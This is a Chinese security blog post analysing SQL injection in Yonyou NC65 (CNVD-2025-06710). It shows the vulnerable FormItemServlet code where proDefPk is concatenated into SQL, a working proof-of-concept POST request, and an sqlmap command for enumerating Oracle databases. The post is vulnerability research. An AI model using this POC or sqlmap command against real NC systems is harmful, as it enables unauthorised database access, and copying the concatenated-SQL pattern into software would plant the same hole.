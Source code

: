 #  用友NC最新SQL注入 | CNVD-2025-06710漏洞分析  
 实战安全研究   2025-07-08 12:30  
  
## 前言  
  
漏洞影响版本：用友NC65  
  
CNVD已知漏洞编号是重复时候给的编号，提交的稍微有些晚就重复了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlrax2y09zEsoCepywXvcv0cb7HAklwZTWfFhY5CicnygvV0oTbMVH6Y8vA/640?wx_fmt=png&from=appmsg "")  
  
不过该漏洞代码比较老，猜测现在才有人挖出来是因为代码里面有加载子类的方法，一般师傅可能觉得绕不过就放弃了，我直接照搬一下自己的漏洞分析文章：  
  
https://forum.butian.net/article/750  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5ib3aFe4hhtP7M1fg56N1OZyaxT5rh0EWanI3cO7VYruqSmYovEc9U6A/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
## 漏洞分析  
  
漏洞所在方法为FormItemServlet，利用POC如下  
```
POST /portal/pt/servlet/getFormItem/doPost?pageId=login&clazz=nc.uap.wfm.vo.base.ProDefBaseVO&proDefPk=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```  
  
下面是漏洞分析，进入到FormItemServlet  
接口处，方法的完整路径为nc.uap.wfm.action.FormItemServlet  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlra09k6dMlibQpIXXPUh79WRz5OJc3mdkD6wIxbbe9qsBdnej3Bra5xmpw/640?wx_fmt=png&from=appmsg "")  
  
该方法的请求路径为前缀+/servlet/getFormItem/  
+对应方法名称  
  
来到doPost方法，完整的代码如下  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlrayfMetEBscyLLABBnsQx6Vt7pcZia6ic7nMreL29nSde84H030RJEPJ0g/640?wx_fmt=png&from=appmsg "")  
```
@Action(method = "POST")  
publicvoid doPost() {  
this.response.setCharacterEncoding("utf-8");  
this.response.setContentType("text/html");  
Writer out = null;  
out = new StringWriter();  
String clazz = this.request.getParameter("clazz");  
String pk_prodef = this.request.getParameter("proDefPk");  
Map<String, String> map = new HashMap<>();  
if (!StringUtils.isEmpty(clazz)) {  
  SuperVO formvo = (SuperVO)LfwClassUtil.newInstance(clazz);  
  IWfmFlwTypeQry service = (IWfmFlwTypeQry)NCLocator.getInstance().lookup(IWfmFlwTypeQry.class);  
  WfmFlwTypeVO flwtypevo = service.getFlwTypeVosByProdefPk(pk_prodef);  
if (flwtypevo != null) {  
String serverClass = flwtypevo.getServerclass();  
    IWfmFormOper formOper = (IWfmFormOper)WfmClassUtil.loadClass(serverClass);  
    map = formOper.getFormFields(formvo, pk_prodef);  
  }   
}   
Document doc = buildXml(map);  
XMLUtil.printDOMTree(out, doc, 0, "UTF-8");  
print(out.toString());  
}

```  
  
可以看到此处post方法接收了两个参数，一个是clazz  
，传入了方法中通过反射加载SuperVO  
类或是他的子类，所以他应该传的是完整的类路径  
```
SuperVO formvo = (SuperVO)LfwClassUtil.newInstance(clazz);  

```  
  
另外一个传参是proDefPk  
，在上一步类加载完成后，进入了WfmFlwTypeQry  
的getFlwTypeVosByProdefPk  
方法中  
```
IWfmFlwTypeQry service = (IWfmFlwTypeQry)NCLocator.getInstance().lookup(IWfmFlwTypeQry.class);  
WfmFlwTypeVO flwtypevo = service.getFlwTypeVosByProdefPk(pk_prodef);  

```  
  
追踪getFlwTypeVosByProdefPk方法，来到代码  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlraicNx5lEScxABibQnKY1VaEFb8oBgTVrkdT7DmibI2KPUwfg88vSegjrRA/640?wx_fmt=png&from=appmsg "")  
  
可以看到参数被拼接到SQL语句中，造成SQL注入  
```
String sql = " select * from wfm_flwtype where pk_flwtype in(select flwtype from wfm_prodef where pk_prodef='" + prodefPk + "')";

```  
  
好了分析到这已经差不多了，只要找一个SuperVO  
的子类让他正常加载走到SQL注入那一步就行了  
  
全局搜索SuperVO  
，这里我挑了一个子类ProDefBaseVO  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlraiaGA9t6L4rzuic9mIYHGnUEoDuxy1J7r4n0MFLHx3AQcodcqd6ib2Y6bA/640?wx_fmt=png&from=appmsg "")  
  
完整路径是nc.uap.wfm.vo.base.ProDefBaseVO  
，下一步构造传参，丢给SQLMAP验证即可  
```
POST /portal/pt/servlet/getFormItem/doPost?pageId=login&clazz=nc.uap.wfm.vo.base.ProDefBaseVO&proDefPk=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

```  
  
S  
QLMAP命令如下，指定数据库为Oracle  
```
python sqlmap.py -r 数据包 --dbms=oracle --dbs -p proDefPk

```  
  
注入验证  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlra67naERDqgn8DgsQqjPocp0Y4t2j2meFuUy2LRIxCmQKSXR8ITaSySQ/640?wx_fmt=png&from=appmsg "")  
  
最后总结  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
###   
  
